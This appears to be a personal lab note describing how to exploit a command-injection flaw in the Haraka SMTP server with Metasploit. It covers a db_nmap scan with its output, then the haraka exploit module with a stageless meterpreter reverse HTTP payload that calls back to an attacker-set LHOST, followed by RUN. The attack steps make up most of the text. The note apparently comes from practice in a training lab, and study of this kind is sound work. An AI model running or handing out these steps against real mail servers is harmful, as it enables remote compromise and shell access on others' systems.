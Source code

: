 # SMTP EXPLOTATION

### simple mail transfer protocol
By default port 25 
can be configured to run on port TCP **465 AND 587**

### explotation HARAKA
```
Haraka is an open source high performance SMTP server developed in Node.js.
The Haraka SMTP server comes with a plugin for processing attachments.
Haraka versions V2.8.9 are vulnerable to command injection.
```

## VErsion 2.8.9 smtp and smaller


# DEMO
>msfconsole
>>workspace
>>>setg RHOSTS
>>>db_nmap -sS -sV -sC -O **<ip**
```bash
[*] Nmap: PORT STATE SERVICE VERSION
[*] Nmap: 25/tcp open smtp Haraka smtpd 2.8.8
[*] Nmap: MAC Address: 02:42:C0:56:33:03 (Unknown)
```
### exploit
>>>linux/smtp/haraka
>>>set SRV_PRT 9898\
>>>set email_to root@attackdefence.text\
>>>set Payload linux/x64/meterpreter_reverse_http\  
```bash
THIS IS A STAGELESS PAYLOAD
```
>>>set LHOST **<eth1>**
```bash
*tHIS NEEDS 8080 THATS WHY WE CHANGED SRV_PORT TO DIFFERENT ONE*
```
>RUN
